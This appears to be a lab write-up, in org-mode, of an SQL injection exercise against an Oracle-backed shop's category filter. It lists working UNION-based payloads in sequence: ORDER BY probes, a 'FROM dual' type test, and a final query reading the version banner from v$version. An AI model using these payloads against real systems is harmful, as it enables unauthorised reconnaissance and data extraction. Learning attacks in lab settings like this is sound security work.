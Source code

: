 #+title: SQL injection attack, querying the database type and version on Oracle
* TABLE OF CONTENTS :toc:
- [[#about][About]]
  - [[#end-goal][End Goal]]
- [[#steps][Steps]]
  - [[#step-1][Step 1]]
  - [[#step-2][Step 2]]
- [[#solution][Solution]]

* About
sql injection on ~category~ filter

** End Goal
Display database version string


* Steps
** Step 1
First find out how many columns are there in vulnerable sql query

#+begin_src sql
'ORDER BY 1 --
#+end_src
200 success
#+begin_src sql
'ORDER BY 2 --
#+end_src
200 success
#+begin_src sql
'ORDER BY 3 --
#+end_src
500 error

so column = 2

** Step 2
Now find out what type data those columns are using
#+begin_src sql
'UNION SELECT 'abc', NULL --
#+end_src

#+begin_quote
But this will give an error. Since this lab is using ~Oracle~ database system. In ~Oracle~ database we have to select at least one table with ~SELECT~ command. But we don't know any table in this lab database. But we can use the default table of ~Oracle~ database called ~dual~
#+end_quote

#+begin_src sql
'UNION SELECT 'abc', NULL FROM dual --
#+end_src
200 success. so column1 supports string type data

#+begin_quote
Now print the database version string value in this column to solve the lab
#+end_quote

* Solution
#+begin_src sql
'UNION SELECT banner, NULL FROM v$version --
#+end_src
